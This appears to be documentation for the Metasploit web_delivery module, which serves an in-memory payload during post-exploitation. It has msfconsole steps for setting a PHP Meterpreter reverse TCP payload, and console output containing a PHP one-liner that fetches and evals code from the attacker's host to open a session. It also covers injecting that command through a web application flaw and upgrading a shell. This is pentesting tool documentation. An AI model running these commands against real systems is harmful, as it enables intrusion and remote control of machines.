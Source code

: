 As a web server, the web_delivery module provides a stealthy way to
deliver a payload during post exploitation because the payload does not
touch the disk.

Currently, web_delivery supports three different languages for delivery:
Python, PHP, and Powershell. You should be able to tell which one you
can use based on the target environment
you are in.

For example, if you gained access through a PHP application, it's safe
to assume you can use PHP. If you're in a Windows server, such as
Windows Server 2008, then it's probably safe to say the target supports
Powershell.

## Verification Steps

To be able to use the web_delivery module, you must gain access to the
target machine first, with the ability to execute either the Python, or
PHP, or Powershell interpreter.

At that point, you would use the web_delivery module like in the
following example:

1. Start msfconsole
2. Run: `use exploit/multi/script/web_delivery`
3. Run: `set target 1` (1 is PHP. You can use `show targets` to see other options)
4. Run: `set PAYLOAD php/meterpreter/reverse_tcp` (You can do `show payloads` to see what options are suitable for the target)
5. Run: `set LHOST IP` (The IP the payload should connect back to)
6. Do: `run`
7. At this point, a handler is up for that payload, and the module should instruct you to execute a command.
8. Copy the command. Depending on your pentesting scenario, you can either inject the
   command and get code execution, or run it from the target's shell and get a session:

```
msf exploit(web_delivery) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 172.16.23.1:4444
msf exploit(web_delivery) > [*] Using URL: http://0.0.0.0:8080/z5inGkwCCQiz9
[*] Local IP: http://10.6.0.86:8080/z5inGkwCCQiz9
[*] Server started.
[*] Run the following command on the target machine:
php -d allow_url_fopen=true -r "eval(file_get_contents('http://172.16.23.1:8080/z5inGkwCCQiz9'));"
[*] Delivering Payload
[*] Sending stage (33684 bytes) to 172.16.23.134
[*] Meterpreter session 1 opened (172.16.23.1:4444 -> 172.16.23.134:41684) at 2016-03-02 11:41:34 -0600
```

## Targets

**Python**

Python is a fairly popular language, especially on Unix-based systems.
By default, it has come with Ubuntu Linux since 8.04, as well as Debian,
and Mac OS X since 10.3.

**PHP**

PHP is a fairly popular language for web servers, especially Apache.

**Powershell/Windows**

Powershell is a popular language for newer Windows systems. Windows 7 and Windows Server 2008 R2
are the first Windows versions to come with Powershell by default. Older Windows systems such as XP
don't come with it by default, but it is still possible to see it installed on a corporate network.

## Scenarios

**Against a compromised web application**

web_delivery would work nicely for a web application with a command
execution vulnerability.

One way to approach this would be:

1. Start exploit/multi/script/web_delivery
2. Use [Burp Suite](https://portswigger.net/burp/) to intercept the
   HTTP/HTTPS request, place the command in the parameter that results
   in arbitrary code execution.
3. Hopefully the modified HTTP/HTTPS request is successful, and you should get a session.

**Shell upgrade**

web_delivery is also useful to upgrade a shell type payload to a Meterpreter one.

Here's how that can be done:

1. Start exploit/multi/script/web_delivery that generates/
2. In msfconsole, interact with the shell, and copy/paste the command.
3. You should get a Meterpreter session.
